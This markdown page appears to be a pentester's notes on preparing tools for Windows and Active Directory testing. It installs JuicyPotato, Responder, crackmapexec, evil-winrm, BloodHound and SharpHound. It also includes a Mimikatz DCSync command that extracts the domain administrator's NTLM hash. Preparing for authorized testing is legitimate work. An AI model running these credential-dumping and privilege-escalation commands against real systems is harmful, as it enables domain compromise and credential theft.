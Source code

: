 ```yaml
---
title: 1. Preparation - Windows
categories:
  - Pentesting
  - Windows
tags:
  - Pentesting
  - Windows
  - Preparation
toc: true
---
```


---
Step 1 in a penetration test: Preparation.
Install the necessary tools, prepare scripts and the working environment.

---
<!-- more -->

<br>

```bash Create a dedicated directory (stay organized)
mkdir -p ~/tools
```

## Pentesting tools
```bash JuiciPotato.exe - privesc from service acc to system
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe ~/tools/JuicyPotato.exe
```

```bash Responder
sudo apt install responder
```

```bash crackmapexec - Swiss Army knife for Win/AD environments
sudo apt install crackmapexec
```

```bash evilwinrm - WinRM shell
sudo apt install evil-winrm
```

<br> 

BloodHound and SharpHound
```bash BloodHound
sudo apt install neo4j

neo4j start
# fresh start (or forgotten password)
sudo rm -rf /usr/share/neo4j/data/dbms/auth
neo4j console
```
```batch collect data with SharpHound (maybe share the binary in a SMB share)
\\10.10.10.10\share> .\SharpHound.exe
```
```bash Import the zip archive created into BloodHound
...
```

<br>

```bash Mimikatz
# download the latest release and upload the 64-bit binary 
# https://github.com/gentilkiwi/mimikatz/releases/latest

.\mimikatz 'lsadump::dcsync /domain:DOMAIN.LOCAL /user:administrator' exit
# NTLM hash
```

<br>

## Other tools
```batch sqlcmd (windows)
winget install sqlcmd
```

<br>

---
---